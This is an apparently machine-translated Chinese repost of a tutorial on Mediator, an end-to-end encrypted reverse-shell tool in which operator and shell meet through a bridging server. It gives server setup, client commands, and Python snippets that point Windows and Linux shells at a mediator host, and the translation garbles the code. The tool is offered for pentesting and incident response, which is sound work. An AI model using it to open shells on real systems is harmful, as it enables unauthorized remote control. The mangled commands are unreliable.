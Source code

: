 # Mediator:一个可扩展的、端到端的加密反向外壳，采用了一种新颖的架构方法

> 原文：<https://kalilinuxtutorials.com/mediator-2/>

[![](img//b3cd93186ec250a350addc7a6d813149.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjryxMNOJytn1YWTSi-ubC6-ihmOxobupe07gUgvahE0P1rTEQV40HMRqS4LkPlxLwzVtpgz3S6hrA30iujMWBX6bGi_PwtEmNHWERMO1pCcADC9n8O44zs92zvJbyNYaisficMZJfR1YFnK9DP562PfS7VyfemMIFBCxMiiryUO3PkVUtIPGEaYaF6=s1561)

**Mediator** 是一个端到端的加密反向 shell，其中操作者和 shell 连接到一个桥接连接的“Mediator”服务器。这消除了运营商/处理者为了监听连接而设置端口转发的需要。Mediator 还允许您创建插件来扩展反向外壳的功能。

您可以将 Mediator 的脚本作为独立的可执行文件运行，也可以将其导入到其他 pentesting 和事件响应工具中。

**建筑**

受端到端加密聊天应用程序的启发，Mediator 采用了一种独特的方法来实现反向外壳的客户端/服务器模型。中介使用:

*   客户端反向外壳
*   客户处理员/操作员
*   连接两个连接的服务器

反向 shells 和处理程序使用连接密钥连接到中介服务器。服务器在端口 80 监听处理程序连接，在端口 443 监听反向 shell 连接。当客户端连接到中介时，服务器根据客户端各自的类型和连接密钥对客户端进行排队。当反向 shell 和操作符都使用相同的密钥连接到服务器时，服务器将桥接这两个连接。在那里，两个客户机之间进行密钥交换，反向 shell 和 operator 之间的所有通信都是端到端加密的。这确保了服务器不能窥探它正在传输的流。

**外挂**

插件允许您添加额外的命令，这些命令可以在运营商的主机、目标主机或两者上执行代码！有关插件的更多信息，请参考插件目录中的自述文件。

**指令**

**服务器**

客户端脚本可以在 Windows 或 Linux 上运行，但是您需要在 Linux 主机上安装服务器(mediator.py)。服务器是纯 Python，所以不需要安装依赖项。您可以使用以下命令运行服务器脚本

**$ python3 mediator.py**

或者，您可以使用提供的 Docker 文件构建 Docker 映像，并在容器中运行它(确保发布端口 80 和 443)。

**客户**

您需要安装 requirements.txt 中的依赖项，以便客户端能够工作。您可以使用以下命令来完成此操作:

**$ pip 3 install-r requirements . txt**

请参见底部的*提示和提醒*,获得关于分发客户端的帮助，而无需担心依赖性。

处理程序和反向 shell 可以在其他 Python 脚本中使用，也可以直接通过命令行使用。在这两种情况下，客户端都可以接受服务器地址和连接密钥的参数。这些参数的用法如下所述。

**中介服务器地址**

对于 *Python 脚本*的用法，在实例化时需要中介主机的地址:

*处理程序类*

**从处理程序导入处理程序
operator = Handler(mediator host = " example . com ")
operator . run()**

*windows shell 类*

**从 windowsTarget 导入 windows rshell
shell = windows rsshell(mediator host = " example . com ")
shell . run()**

如果直接从 shell 执行客户端脚本*，您可以将地址硬编码在脚本的底部，或者可以将服务器地址指定为带有`**-s**`或`**--server**`标志的参数:*

*handle . py*

**$ python 3 handler . py-s example.com**

*windowsTarget.py*

**python windows target . py-s example.com**

**连接密钥**

当两个处理程序或两个反向 shells 使用相同的连接键连接到中介服务器时，只有第一个连接排队等待匹配。在排队的连接超时(30 秒)或与对应的连接匹配之前，尝试使用相同连接密钥进行连接的所有其他相同类型的客户端都将被丢弃。

重要的是要确保每个处理程序都使用唯一的连接密钥，以避免竞争情况导致错误的 shell 被提供给操作符。

仅前缀为“#”的键！ConnectionKey_ "将被服务器接受。默认的连接密钥是“#！ConnectionKey_CHANGE_ME！！!"。

要更改用于 *Python 脚本*用途的连接密钥，可以选择在实例化时提供连接密钥:

*处理程序类*

**从处理程序导入处理程序
operator = Handler(mediator host = " example . com "，connectionKey="#！connection key _ secret _ key ")
operator . run()**

*Linux shell 类*

**从 linuxTarget 导入 Linux rshell
shell = Linux rshell(mediator host = " example . com "，connectionKey="#！connection key _ secret _ key ")
shell . run()**

如果直接从 shell 中执行客户端脚本*，您可以在脚本底部硬编码连接密钥，也可以使用`**-c**`或`**--connection-key**`标志将连接密钥指定为参数:*

*handle . py*

**$ python 3 handler . py-s example.com-c ' #！连接密钥 _ 秘密密钥'**

*windowsTarget.py*

**python windows target . py-s example.com-c ' #！连接密钥 _ 秘密密钥'**

[**Download**](https://github.com/lawndoc/mediator)